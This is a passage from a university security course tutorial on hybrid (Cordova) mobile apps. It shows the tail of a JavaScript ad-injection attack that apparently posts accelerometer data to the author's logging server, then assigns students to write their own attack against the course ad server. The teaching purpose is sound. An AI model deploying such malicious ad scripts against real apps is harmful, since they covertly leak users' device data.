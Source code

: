 ```HTML
            contentType:"application/x-www-form-urlencoded"
        }).then(function (data, status, request){
            console.log("Successful ajax call: " + request.responseText);
            alert('Attack Succeeded: '+request.responseText, 10000);
        }).fail(function(request, status, error){
            console.log("Ajax error: "+request.responseText);
            alert('Attack Failed: '+request.responseText, 10000);
        });
    }, function (error) {//error callback
        //do some error handling
    });}
    catch(err){
        alert('Attack Failed: '+'Cordova failed: probably not running on a mobile device.', 10000);
    }
</script>
```

Here is a screenshot of the logs generate on my logging server

![advert2](hybrid-app-tutorial-part3/accelerometer-attack2.png)

[Top](#table-of-contents)

### Write your own attack
Write an attack to go along with the feature you worked on independently in lab 2. Ask me for access and I will provide you with credentials to access and deploy your attack on the ad server.

#### License
<a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/"><img alt="Creative Commons License" style="border-width:0" src="https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png" /></a><br /><span xmlns:dct="http://purl.org/dc/terms/" property="dct:title">CYBER8480 and related works</span> by <a xmlns:cc="http://creativecommons.org/ns#" href="http://faculty.ist.unomaha.edu/mlhale" property="cc:attributionName" rel="cc:attributionURL">Matt Hale</a> are licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/">Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License</a>.

